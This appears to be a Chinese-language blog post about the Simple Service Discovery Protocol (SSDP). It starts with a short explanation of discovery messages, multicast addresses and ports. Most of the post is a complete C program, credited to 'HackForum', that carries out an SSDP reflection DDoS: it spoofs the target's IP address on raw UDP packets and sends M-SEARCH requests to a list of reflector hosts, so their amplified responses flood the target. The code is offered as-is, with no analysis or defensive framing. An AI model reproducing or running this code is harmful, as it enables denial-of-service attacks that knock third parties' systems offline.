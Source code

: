 title: SSDP
tags:
  - SSDP
categories: []
date: 2017-03-16 20:20:00
---
> 简单服务发现协议提供了在局部网络里面发现设备的机制。控制点(也就是接受服务的客户端)可以通过使用简单服务发现协议，根据自己的需要查询在自己所在的局部网络里面提供特定服务的设备。设备(也就是提供服务的服务器端)也可以通过使用简单服务发现协议，向自己所在的局部网络里面的控制点声明它的存在。

# 实现

简单服务发现协议是在HTTPU和HTTPMU的基础上实现的协议。

按照协议的规定，当一个控制点(客户端)接入网络的时候，它可以向一个特定的多播地址的SSDP端口使用M-SEARCH方法发送"ssdp:discover"消息。当设备监听到这个保留的多播地址上由控制点发送的消息的时候，设备会分析控制点请求的服务，如果自身提供了控制点请求的服务，设备将通过单播的方式直接响应控制点的请求。

类似的，当一个设备接入网络的时候，它应当向一个特定的多播地址的SSDP端口使用NOTIFY方法发送"ssdp:alive"消息。控制点根据自己的策略，处理监听到的消息。考虑到设备可能在没有通知的情况下停止服务或者从网络上卸载，"ssdp:alive"消息必须在HTTP协议头CACHE-CONTROL里面指定超时值，设备必须在约定的超时值到达以前重发"ssdp:alive"消息。如果控制点在指定的超时值内没有再次收到设备发送的"ssdp:alive"消息，控制点将认为设备已经失效。

当一个设备计划从网络上卸载的时候，它也应当向一个特定的多播地址的SSDP端口使用NOTIFY方法发送"ssdp:byebye"消息。但是，即使没有发送"ssdp:byebye"消息，控制点也会根据"ssdp:alive"消息指定的超时值，将超时并且没有再次收到的"ssdp:alive"消息对应的设备认为是失效的设备。

在IPv4环境，当需要使用多播方式传送相关消息的时候，SSDP一般使用多播地址239.255.255.250和UDP端口号1900。

根据互联网地址指派机构的指派，SSDP在IPv6环境下使用多播地址FF0x::C，这里的X根据scope的不同可以有不同的取值。

```C++
/*
This DDoS Script is brought to you by HackForum
*/
#include <time.h>
#include <pthread.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <netinet/udp.h>
#include <arpa/inet.h>
#define MAX_PACKET_SIZE 8192
#define PHI 0x9e3779b9
static uint32_t Q[4096], c = 362436;
struct list
{
	struct sockaddr_in data;
	struct list *next;
	struct list *prev;
};
struct list *head;
struct thread_data{ int thread_id; struct list *list_node; struct sockaddr_in sin; };
void init_rand(uint32_t x)
{
	int i;
	Q[0] = x;
	Q[1] = x + PHI;
	Q[2] = x + PHI + PHI;
	for (i = 3; i < 4096; i++)
	{
		Q[i] = Q[i - 3] ^ Q[i - 2] ^ PHI ^ i;
	}
}
 
uint32_t rand_cmwc(void)
{
	uint64_t t, a = 18782LL;
	static uint32_t i = 4095;
	uint32_t x, r = 0xfffffffe;
	i = (i + 1) & 4095;
	t = a * Q[i] + c;
	c = (t >> 32);
	x = t + c;
	if (x < c) {
		x++;
		c++;
	}
	return (Q[i] = r - x);
}
 
/* function for header checksums */
unsigned short csum (unsigned short *buf, int nwords)
{
	unsigned long sum;
	for (sum = 0; nwords > 0; nwords--)
	sum += *buf++;
	sum = (sum >> 16) + (sum & 0xffff);
	sum += (sum >> 16);
	return (unsigned short)(~sum);
}
 
void setup_ip_header(struct iphdr *iph)
{
	iph->ihl = 5;
	iph->version = 4;
	iph->tos = 0;
	iph->tot_len = sizeof(struct iphdr) + sizeof(struct udphdr) + 90;
	iph->id = htonl(54321);
	iph->frag_off = 0;
	iph->ttl = MAXTTL;
	iph->protocol = IPPROTO_UDP;
	iph->check = 0;
	iph->saddr = inet_addr("192.168.3.100");
}
 
void setup_udp_header(struct udphdr *udph)
{
	udph->source = htons(5678);
	udph->dest = htons(1900);
	udph->check = 0;
	strcpy((void *)udph + sizeof(struct udphdr), "M-SEARCH * HTTP/1.1\r\nHost:239.255.255.250:1900\r\nST:ssdp:all\r\nMan:\"ssdp:discover\"\r\nMX:5\r\n\r\n");
	udph->len=htons(sizeof(struct udphdr) + 90);
}
 
void *flood(void *par1)
{
	struct thread_data *td = (struct thread_data *)par1;
	char datagram[MAX_PACKET_SIZE];
	struct iphdr *iph = (struct iphdr *)datagram;
	struct udphdr *udph = (/*u_int8_t*/void *)iph + sizeof(struct iphdr);
	struct sockaddr_in sin = td->sin;
	struct  list *list_node = td->list_node;
	int s = socket(PF_INET, SOCK_RAW, IPPROTO_TCP);
	if(s < 0){
		fprintf(stderr, "Could not open raw socket.\n");
		exit(-1);
	}
	init_rand(time(NULL));
	memset(datagram, 0, MAX_PACKET_SIZE);
	setup_ip_header(iph);
	setup_udp_header(udph);
	udph->source = sin.sin_port;
	iph->saddr = sin.sin_addr.s_addr;
	iph->daddr = list_node->data.sin_addr.s_addr;
	iph->check = csum ((unsigned short *) datagram, iph->tot_len >> 1);
	int tmp = 1;
	const int *val = &tmp;
	if(setsockopt(s, IPPROTO_IP, IP_HDRINCL, val, sizeof (tmp)) < 0){
		fprintf(stderr, "Error: setsockopt() - Cannot set HDRINCL!\n");
		exit(-1);
	}
	int i=0;
	while(1){
		sendto(s, datagram, iph->tot_len, 0, (struct sockaddr *) &list_node->data, sizeof(list_node->data));
		list_node = list_node->next;
		iph->daddr = list_node->data.sin_addr.s_addr;
		iph->check = csum ((unsigned short *) datagram, iph->tot_len >> 1);
		if(i==5)
		{
			usleep(0);
			i=0;
		}
		i++;
	}
}
int main(int argc, char *argv[ ])
{
	if(argc < 4){
		fprintf(stderr, "Invalid parameters!\n");
		fprintf(stdout, "Usage: %s <target IP> <target port> <reflection file> <throttle> <time (optional)>\n", argv[0]);
		exit(-1);
	}
	int i = 0;
	head = NULL;
	fprintf(stdout, "Setting up Sockets...\n");
	int max_len = 128;
	char *buffer = (char *) malloc(max_len);
	buffer = memset(buffer, 0x00, max_len);
	int num_threads = atoi(argv[4]);
	FILE *list_fd = fopen(argv[3],  "r");
	while (fgets(buffer, max_len, list_fd) != NULL) {
		if ((buffer[strlen(buffer) - 1] == '\n') ||
				(buffer[strlen(buffer) - 1] == '\r')) {
			buffer[strlen(buffer) - 1] = 0x00;
			if(head == NULL)
			{
				head = (struct list *)malloc(sizeof(struct list));
				bzero(&head->data, sizeof(head->data));
				head->data.sin_addr.s_addr=inet_addr(buffer);
				head->next = head;
				head->prev = head;
			} else {
				struct list *new_node = (struct list *)malloc(sizeof(struct list));
				memset(new_node, 0x00, sizeof(struct list));
				new_node->data.sin_addr.s_addr=inet_addr(buffer);
				new_node->prev = head;
				new_node->next = head->next;
				head->next = new_node;
			}
			i++;
		} else {
			continue;
		}
	}
	struct list *current = head->next;
	pthread_t thread[num_threads];
	struct sockaddr_in sin;
	sin.sin_family = AF_INET;
	sin.sin_port = htons(atoi(argv[2]));
	sin.sin_addr.s_addr = inet_addr(argv[1]);
	struct thread_data td[num_threads];
	for(i = 0;i<num_threads;i++){
		td[i].thread_id = i;
		td[i].sin= sin;
		td[i].list_node = current;
		pthread_create( &thread[i], NULL, &flood, (void *) &td[i]);
	}
	fprintf(stdout, "Starting Flood...\n");
	if(argc > 5)
	{
		sleep(atoi(argv[5]));
	} else {
		while(1){
			sleep(1);
		}
	}
	return 0;
}
```
